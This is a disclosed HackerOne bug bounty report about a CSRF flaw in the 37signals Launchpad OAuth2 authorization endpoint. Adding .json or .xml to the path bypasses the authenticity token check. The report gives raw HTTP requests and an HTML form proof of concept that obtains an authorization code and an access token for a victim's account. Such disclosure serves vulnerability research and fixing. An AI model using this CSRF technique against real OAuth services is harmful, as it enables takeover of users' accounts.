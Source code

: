 # CSRF on launchpad.37signals.com OAuth2 authorization endpoint

## Report Details
- **Report ID**: 850022
- **URL**: https://hackerone.com/reports/850022
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-14T23:22:27.499Z
- **Disclosed**: 2020-10-30T18:35:11.408Z

## Reporter
- **Username**: carbon61
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
Hi,
I found a CSRF in the OAuth2 authorization endpoint on launchpad.37signals.com. That allows a malicious 3rd party application to gain full API access to  victim's  account in 37signals products  that uses OAuth2 authorization.

I found that when making a post request to ``` authorization ```  endpoint it does not check the "authenticity token" if you add " .json or .xml " like this "authorization.json" .

##post request:
```
POST /authorization.json HTTP/1.1
Host: launchpad.37signals.com
Connection: close
Content-Length: 168
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.163 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _beanstalk_uuid=

client_id={your-client-id}&type=web_server&redirect_uri={your-redirect-uri}&commit=

```


After a 3rd party application gets the authorization code from redirect_uri, it can then exchange it for an access token. and get full access to the api.

## request to get the access token:

```
POST /authorization/token HTTP/1.1
Host: launchpad.37signals.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.163 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _beanstalk_uuid=
Content-Type: application/x-www-form-urlencoded
Content-Length: 214

type=web_server&client_id={your-client-id}&redirect_uri={your-redirect-uri}&client_secret={your-client-secret}&code={authorization-code}

```

## PoC:

1- you will need to register on the 37Signals Integration Portal.

2- Login to any 37Signals apps that uses the OAuth2 authorization for example basecamp 3 account. (i tested it using basecamp 3 )

3- for testing , submit the following form through the browser in which you are logged in:

```
<form action="https://launchpad.37signals.com/authorization.json" method="POST">
      <input type="hidden" name="client&#95;id" value="{your-client-id}" />
      <input type="hidden" name="client&#95;secret" value="" />
      <input type="hidden" name="type" value="web&#95;server" />
      <input type="hidden" name="redirect&#95;uri" value="{your-redirect-uri}" />
      <input type="hidden" name="commit" value="" />
      <input type="submit" value="Submit request" />
    </form>
```

you will get the {authorization-code} so you can exchange it for an access token

## Note that a real attack does not require user interaction.

## Impact

Through this vulnerability an attacker can do malicious actions on the victim's account
full API access to  victim's  account

## Attachments
No attachments
